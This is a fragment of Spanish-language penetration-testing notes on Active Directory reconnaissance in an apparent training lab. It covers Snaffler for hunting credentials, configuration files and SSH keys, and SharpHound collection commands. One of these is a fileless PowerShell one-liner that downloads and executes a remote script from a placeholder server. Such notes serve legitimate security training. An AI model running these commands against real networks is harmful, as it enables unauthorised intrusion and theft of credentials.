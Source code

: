 Es una herramienta que nos puede ayudar a recolectar información sensible dentro del AD como credenciales, archivos de configuración, claves SSH, … Ejemplo de ejecución:
```powershell
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```
### Sharphound
Similar a `bloodhound-python`, aunque permite obtener información de sesiones, ACLs, grupos locales y rutas de confianza, ya además de actúar sobre el protocolo LDAP, también actúa sobre kerberos, WinRM y SMB
```powershell
#Ejecutable
.\SharpHound.exe -c All --zipfilename ILFREIGHT
.\SharpHound.exe -c all, Group --zipfilename sharphound_inlane
# Sharphound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\public\ -OutputPrefix "corp audit"
# Sin importar script
.\SharpHound.ps1 -c All,Group -ZipFileName sharphound_inlane
# Fileless
IEX (New-Object Net.WebClient).DownloadString('http://servidor/sharphound.ps1'); Invoke-BloodHound -CollectionMethod All,Group -ZipFileName sharphound_inlane
```